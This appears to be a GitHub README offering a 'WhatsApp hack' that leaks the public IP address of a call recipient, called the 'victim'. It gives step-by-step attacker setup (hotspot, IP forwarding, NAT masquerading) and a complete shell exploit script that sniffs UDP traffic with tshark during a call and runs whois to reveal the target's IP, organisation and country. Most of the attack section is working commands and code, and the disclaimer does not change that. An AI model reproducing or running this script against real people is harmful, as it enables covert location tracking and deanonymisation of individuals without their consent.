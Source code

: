 # 🔥 New WhatsApp Hack! (Leak Public IP Addresses) 🔥
Leak Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim

Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
```
sudo hotspotd start
```
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 5: Call victim on his whatsapp
- Step 6: Disconnect the call once established
- Step 7: Script will reveal the public IP address of the target
- Step 8: Validate the public IP address on target phone

## Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
## Credit

## [bhdresh](https://github.com/bhdresh)
